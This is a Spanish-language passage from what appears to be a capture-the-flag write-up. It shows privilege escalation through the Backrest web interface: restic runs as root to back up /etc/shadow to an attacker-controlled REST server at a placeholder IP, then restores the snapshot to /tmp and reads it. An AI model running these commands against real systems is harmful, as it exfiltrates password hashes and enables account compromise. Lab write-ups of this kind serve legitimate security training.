 ```shell
/snap/bin/restic init -r "rest:http://<IP>:6666/Shell"
```

Metemos como contraseña la que queramos y ahora vamos a irnos a la pagina de `Backrest` en el que hicimos la redireccion de puertos y en el repo que habiamos creado en la opcion de `Run Command` vamos a poner el siguiente comando, ya que ahora si tenemos nuestro servidor a la escucha junto con nuestro repo inicializado de forma correcta.

```shell
backup -r "rest:http://<IP>:6666/Shell" /etc/shadow
```

Info:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-17 153620.png" alt=""><figcaption></figcaption></figure>

Veremos que ha funcionado, por lo que vamos a listar las `snapshots` a ver si se creo de forma correcta.

```shell
/snap/bin/restic -r "rest:http://<IP>:6666/Shell" snapshots
```

Info:

```
enter password for repository: 
repository 353fd58b opened (repository version 2) successfully, password is correct
created new cache in /root/.cache/restic
ID        Time                 Host        Tags        Paths
------------------------------------------------------------------
0f45b7b6  2025-09-17 09:36:06  artificial              /etc/shadow
------------------------------------------------------------------
1 snapshots
```

Veremos que si, pero para poder leerlo tendremos que exportarlo alguna carpeta a nivel `local` en mi caso lo hare en `/tmp` de esta forma:

```shell
/snap/bin/restic -r "rest:http://<IP>:6666/Shell" restore 0f45b7b6 --include /etc/shadow --target /tmp
```

Metemos como contraseña la que establecimos anteriormente cuando iniciamos el repo...

```
enter password for repository: 
repository 353fd58b opened (repository version 2) successfully, password is correct
restoring <Snapshot 0f45b7b6 of [/etc/shadow] at 2025-09-17 13:36:06.346615885 +0000 UTC by root@artificial> to /tmp
```

Y con esto ya lo habremos exportado, para poder verlo tendremos que irnos a la estructura de carpetas con la que se ha creado, que seria la siguiente:

```shell
cat /tmp/etc/shadow
```
